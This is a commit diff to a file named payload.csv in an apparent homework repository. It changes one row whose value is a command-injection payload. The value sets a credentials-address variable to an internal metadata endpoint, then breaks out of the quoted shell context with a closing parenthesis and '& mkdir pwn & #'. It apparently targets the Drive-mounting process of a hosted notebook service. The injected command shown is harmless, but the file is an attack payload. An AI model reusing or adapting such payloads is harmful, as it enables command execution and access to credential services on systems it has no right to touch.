

Before and after one commit to Crazed-png/HOMEWORK, a CSV file: payload.csv, drawn as a sheet.

Commit message:
Update payload.csv

```diff
--- a/payload.csv
+++ b/payload.csv
@@ -2,2 +2,2 @@
 #1,2
-TBE_EPHEM_CREDS_ADDR="172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream; echo drive EXITED; ) & mkdir pwn & # " #, 13
+TBE_EPHEM_CREDS_ADDR="172.28.0.1:8009/computeMetadata/v1 --preferences=trusted_root_certs_file_path:/opt/google/drive/roots.pem,mount_point_path:/content/drive/ 2>&1 | grep --line-buffered -E Drive File Stream encountered a problem and has stopped|The domain policy has disabled Drive File Stream; echo drive EXITED; ) & mkdir pwn & # "#, 13
```
